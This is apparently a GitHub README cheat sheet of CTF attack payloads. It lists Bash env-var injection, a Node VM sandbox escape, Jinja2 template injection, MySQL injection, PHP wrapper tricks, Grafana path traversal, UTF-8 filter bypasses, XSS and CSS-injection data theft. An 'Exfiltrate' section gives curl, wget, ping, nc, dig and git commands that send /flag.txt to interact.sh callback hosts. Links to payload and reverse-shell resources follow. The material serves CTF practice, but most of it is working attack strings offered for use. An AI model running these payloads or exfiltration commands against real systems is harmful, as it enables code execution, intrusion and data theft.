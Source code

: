 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    wget --post-file /flag.txt xxxx.interct.sh
    wget -U `cat /flag.txt` xxxx.interct.sh
    wget `base64 -w0 /flag.txt`.xxxx.interct.sh
    ping here.xxx.interact.sh
    ping $(head -c 32 /flag|base64|tr -d "="|tr "+" "-"|tr "/" ".").xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh

### Path Traversal

    curl --path-as-is grafana.example.com/public/plugins/alertmanager/../../../../../../../../tmp/flag

### Bypass

#### utf8 normalization

      " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
      ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
      < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
      > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
      . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
      / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
      \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

### XSS

Limited charset

```
< ="<img src data-x=YWxlcnQoZG9jdW1lbnQubG9jYXRpb24p onerror=javascript:eval(atob(this.dataset.x)) />
```

#### CSS Injection

Abuse unicode range to exfiltrate charset

```css
@font-face {
    font-family:poc;
    src:url('//colab.com/A');
    unicode-range:U+0041;
}
@font-face {
    font-family:poc;
    src:url('//colab.com/B');
    unicode-range:U+0042;
}
#secret {
    font-family:poc;
}
...
```
Generator

```python
import string
colab = "xxx.interact.sh"
select = "h1"
for l in string.ascii_letters:
  print("@font-face{font-family:poc;src:url('//"+l+"."+colab+"/"+l+"');unicode-range:U+00"+ hex(ord(l))[2:]+";}",end="")
print(select+"{font-family:poc;}")
```

Attribute selectors

Contains: 

```css
a[href*="flag{"] {
  ...
}
```

Starts with:

```css
[class^="flag{A"] {
  background:url('//colab.com/A');
}
[class^="flag{B"] {
  background:url('//colab.com/B');
}
```


## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [IP Format Converter (Bypass)](https://h.43z.one/ipconverter/)
- [Photo Osint Resources](https://start.me/p/0PgzqO/photo-osint)

### De/Compile De/Obfuscate

- [JS Deobfuscator]( https://www.seosniffer.com/javascript-deobfuscator )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [Compile Online]( https://rextester.com/ )
- [Decompile Java]( http://www.javadecompilers.com/ )

### Encode/Decode/Crypto

- [codext]( https://github.com/dhondta/python-codext ) [Guess mode]( https://python-codext.readthedocs.io/en/latest/guessing.html )

### Cheatsheets

- [Web CTF Cheatsheet]( https://github.com/sl4x0/Web-CTF-Cheatsheet )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [💣 PHP Web CTF Cheatsheet](https://github.com/w181496/web-ctf-cheatsheet)
- [XS Leaks]( https://xsleaks.dev/docs/attacks/css-tricks/ )

#### Pentest - Network

https://trojand.com/cheatsheet/https://start.me/p/0PgzqO/photo-osint

